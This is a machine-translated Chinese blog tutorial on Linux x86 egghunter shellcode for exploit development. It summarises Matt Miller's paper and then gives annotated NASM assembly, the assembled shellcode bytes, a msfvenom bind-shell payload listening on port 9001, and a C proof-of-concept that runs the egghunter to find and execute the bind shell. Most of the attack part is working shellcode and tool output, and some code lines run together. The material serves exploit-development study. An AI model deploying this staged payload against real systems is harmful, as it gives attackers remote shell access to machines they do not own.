




# Egghunter (Linux 实现)

> 原文：<https://infosecwriteups.com/expdev-egghunter-linux-implementation-49154ff4d225?source=collection_archive---------1----------------------->

# **egg hunter 是什么？**

就我个人而言，当我在学习 [OSCE 课程](https://www.offensive-security.com/offsec/retiring-ctp-intro-new-courses/)形式攻击安全时，我曾与 Egghunter 打过交道。Egghunter 本质上是一个分阶段的有效负载，由相对较短的外壳代码(大约 30+字节)组成。在第一个缓冲区空间有限的情况下，我们可以在那里实现 Egghunter 外壳代码，这将在进程内存中搜索更大的缓冲区空间，在那里我们放置带有最终反向/绑定外壳代码的签名(也称为“Egg”)。

下图是 Egghunter 工作方式的简化版:



# **深度猎蛋者**


尽管我知道 Egghunter 是什么以及如何使用它，但我想更详细地了解它。所以我读了 Matt Miller 的[安全搜索进程虚拟地址空间](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)来了解更多关于 Egghunter 的知识。

以下是这篇文章的要点:

*   按照作者的说法，推荐使用 8 字节 egg，因为它可以提供足够的唯一性，可以很容易地选择它，而不会有任何高的冲突风险。

## **Linux Egghunter 实现**

*   在 Linux 实现中，有两种主要方法:

1) SIGSEGV 处理程序，用于捕获无效的内存地址解引用，并防止程序崩溃

2)使用 OS 系统调用接口来验证内核模式中的进程 VMAs。

*   在 Linux 实现中，SIGSEGV 处理程序技术有一个很大的缺点，就是大小问题。
*   在 Linux 实现中，当遇到无效的内存空间时，系统调用将返回`EFAULT`错误代码，这正是 Egghunter 需要的信息类型，因为它可以遍历进程的虚拟地址空间(VAS ),而不会使程序崩溃。



## **Windows Egghunter 实现**

*   在 Windows 实现中，也有两种主要方法:

1) SEH(结构异常处理程序)

2)操作系统调用(IsBadReadPtr & NtDisplayString)



## **Egghunter 外壳代码**


出于演示的目的，我将使用 Linux 实现的`access()` syscall 版本来构建 Egghunter 有效负载。让我们创建下面的`egghunter.nasm`文件:

```
global _startsection .text_start:
        mov ebx, 0x50905090     **; 4 byte Egg (*Little-Endian)**
        xor ecx, ecx            **; Zero out ECX**
        mul ecx                 **; Zero out EAX and EDX**next_page:
        or dx, 0xfff            **; Set PAGE_SIZE 4095 (0x1000)**next_addr:
        inc edx                 **; Increment by 4095 (0x1000)**
        pushad                  **; Preserve all general purposes 
                                  register values onto the stack**
        lea ebx, [edx+4]        **; Checking if the address is** 
                                  **readable**
        mov al, 0x21            **; Set AL to syscall access() (0x21)**
        int 0x80                **; Soft-interrupt to execute the 
                                  syscall** cmp al, 0xf2            **; Check for EFAULT (Invalid memory 
                                  space)**
        popad                   **; Restore the preserved registers**
        jz next_page            **; EFAULT --> Invalid memory space 
                                  --> Next page** cmp [edx], ebx          **; Check for the address if it 
                                  contains egg**
        jnz next_addr           **; If not, go back to look for our 
                                  first egg** cmp [edx+4], ebx        **; Check for the address + 4** 
        jnz next_addr           **; If not, go back to look for our 
                                  second egg** jmp edx                 **; Both eggs are found --> JMP to 
                                  EDX --> Continue execution flow**
```

## **编译+绑定外壳代码(msfvenom)**

我创建了一个简单的编译器 [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py) 。

```
# python compilerX86.py -f egghunter[+] Assemble: egghunter.nasm
[+] Linking: egghunter.o
**[+] Shellcode: “\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2”**
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

此外，使用 msfvenom，让我们创建一个绑定外壳:

```
# msfvenom -p linux/x86/shell_bind_tcp LPORT=9001 -f c[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
**unsigned char buf[] =
“\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80”
“\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a”
“\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0”
“\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f”
“\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0”
“\x0b\xcd\x80”;**
```

## **最后一击**

最后，让我们结合这些 bind shellcode 和 egghunter 来创建以下漏洞脚本`egghunter.c`:

```
#include <stdio.h>unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42"
"\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a"
"\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";unsigned char shellcode[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50"  // Egg
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";void main() {
    int (*ret)() = (int(*)())egghunter;
    ret(); return 0;
}
```

通过用`gcc`编译上述脚本，我们可以成功创建一个概念验证 Egghunter 程序。它首先执行 Egghunter，一旦找到鸡蛋，它接下来执行 bind shell:



我写了下面的博客，我用 Egghunter 创建了现实生活中的漏洞:

*   [https://bigb0ss . medium . com/expdev-winamp-5-12-exploitation-using-egg hunter-b 12383 f7a 449](https://bigb0ss.medium.com/expdev-winamp-5-12-exploitation-using-egghunter-b12383f7a449)
*   [https://medium . com/bugbountywriteup/exp dev-vulnserver-part-3-24859 BD 31 c0a](https://medium.com/bugbountywriteup/expdev-vulnserver-part-3-24859bd31c0a)
*   [https://bigb0ss . medium . com/exp dev-HP-openview-nnm-7-5-exploitation-seh-egg hunter-b 25 ea 5 fab 43 f？source=search_popover -](https://bigb0ss.medium.com/expdev-hp-openview-nnm-7-5-exploitation-seh-egghunter-b25ea5fab43f?source=search_popover-------------------------------------)

感谢阅读！